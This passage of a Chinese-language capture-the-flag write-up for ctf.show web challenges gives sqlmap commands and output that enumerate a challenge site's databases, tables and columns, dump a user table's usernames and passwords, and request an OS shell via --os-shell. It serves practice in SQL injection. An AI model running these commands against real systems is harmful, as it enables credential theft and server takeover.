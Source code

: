 ```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" --dbs --batch
```

得到

```
available databases [5]:
[*] ctfshow_web
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
```

爆表名：

```python2
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web --tables --batch
```

得到

````
Database: ctfshow_web
[1 table]
+--------------+
| ctfshow_user |
+--------------+
````

爆字段：

```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user --columns --batch
```

爆内容

```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user -C id,pass,username --dump --batch
```

得到 shell

```
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show" --os-shell
```

## web202~--data参数

>  使用--data 调整sqlmap的请求方式

post方式提交参数
